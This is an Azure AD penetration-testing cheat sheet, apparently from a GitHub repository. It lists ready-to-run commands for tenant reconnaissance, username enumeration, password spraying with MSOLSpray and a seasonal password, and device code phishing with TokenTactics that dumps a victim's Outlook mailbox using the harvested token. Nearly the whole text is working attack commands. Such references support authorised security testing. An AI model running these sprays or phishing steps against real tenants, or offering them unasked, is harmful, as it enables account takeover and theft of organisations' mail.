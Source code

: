 # Azure AD Assessment
## Automated
```bash
pip install az-cli
az login
# from https://portal.azure.com/ make sure the default directory is the directory you are testing
python3 scount.py --cli


prowler azure --browser-auth
```
## Manual Recon
### Enumerate the tenant id
```http
https://login.microsoftonline.com/example.onmicrosoft.com/.well-known/open
id-configuration
```
## Recon
```powershell
# Get all the information 
Import-Module .\AADInternals\AADInternals.psd1
$DomainName = "example.onmicrosoft.com"
Invoke-AADIntReconAsOutsider -DomainName $DomainName

# Enumerate Subdomains
Import-Module .\MicroBurst.psm1

# Enumerate all subdomains for an organization specified using the '-Base' parameter
Invoke-EnumerateAzureSubDomains -Base example -Verbose

# Validate if account exists
Invoke-AADIntUserEnumerationAsOutsider -username paul@example.onmicrosoft.com

# Enumerate valid Usernames
cat C:\tools\usernames.txt | Invoke-AADIntUserEnumerationAsOutsider

# Spray Accounts
# Usernames.txt should contain accounts with the fqdn e.g., karim@example.onmicrosoft.com
Invoke-MSOLSpray -UserList .\usernames.txt -Password Winter2022
```

## Device Code phising
```powershell
Import-Module .\TokenTactics-main\TokenTactics.psd1   

# Generate the device code and user code
Get-AzureToken -Client MSGraph

# Dump Outlook using the access token
Dump-OWAMailboxViaMSGraphApi -AccessToken $response.access_token -mailFolder
```
